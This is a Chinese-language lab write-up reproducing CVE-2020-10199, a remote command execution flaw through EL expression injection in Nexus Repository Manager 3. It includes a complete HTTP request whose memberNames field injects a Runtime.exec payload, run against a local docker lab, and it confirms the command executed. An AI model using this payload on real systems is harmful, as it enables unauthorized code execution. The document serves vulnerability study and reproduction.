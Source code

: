 

# Nexus Repository Manager 3 远程命令执行漏洞（CVE-2020-10199）

###### by ADummy

### 0x00利用路线

​			登录抓包--->获取cookie和csrf token--->burpsuite发包--->命令执行

### 0x01漏洞介绍

​			Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

### 0x02漏洞复现

​	等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码`admin:admin`登录后台。

![Nexus_Repository_Manager3_RCE_21](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Nexus_Repository_Manager3_RCE_21.jpg)



登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 203
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.7886248393834028
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 278d086ce087c25389bba6fecb03d8a9=3f769ae53838e13e44a4ee0a5fe70526; NX-ANTI-CSRF-TOKEN=0.6813274455108288
Connection: close

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}"]
  }
}
```

![Nexus_Repository_Manager3_RCE_21](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Nexus_Repository_Manager3_RCE_22.jpg)



进入docker 发现   touch  /tmp/success被执行

![Nexus_Repository_Manager3_RCE_21](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Nexus_Repository_Manager3_RCE_23.jpg)